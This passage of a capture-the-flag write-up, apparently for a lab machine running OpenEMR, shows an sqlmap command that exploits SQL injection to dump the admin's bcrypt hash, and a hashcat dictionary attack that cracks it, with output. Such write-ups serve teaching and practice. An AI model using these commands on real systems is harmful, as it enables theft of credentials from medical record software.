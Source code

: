 #### Leaking Administrator Password Hash with SQLMap

Let's leak the credentials under users_secure. Let's dump the usernames and passwords.
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" -D openemr -T users_secure -C username,password --dump

```
<br />Result:
<br />
```bash
...
[13:53:59] [INFO] resumed: 'openemr_admin'
Database: openemr
Table: users_secure
[1 entry]
+---------------+--------------------------------------------------------------+
| username      | password                                                     |
+---------------+--------------------------------------------------------------+
| openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. |
+---------------+--------------------------------------------------------------+
...
```
<br />Now we know that there is only one user in the administration login portal and we leaked its password hash
#### Cracking Administrator Bcrypt Hash W/ Hashcat

Let's identify first what kind of hash it is from [Hashcat list](https://hashcat.net/wiki/doku.php?id=example_hashes). It's a Bcrypt.<br />
![Bcrypt](images/cache/14.png)
<br />Let's crack it using hashcat
<br />
```bash

hashcat -a 0 -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt

```
<br />Result:
<br />
```bash
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...F6P0B.
Time.Started.....: Sat Oct 10 14:11:34 2020 (2 secs)
Time.Estimated...: Sat Oct 10 14:11:36 2020 (0 secs)
...
```
<br />We actually cracked it! The password is **```xxxxxx```** for **```openemr_admin```**. We can now login and this is the web page after logging in:
<br />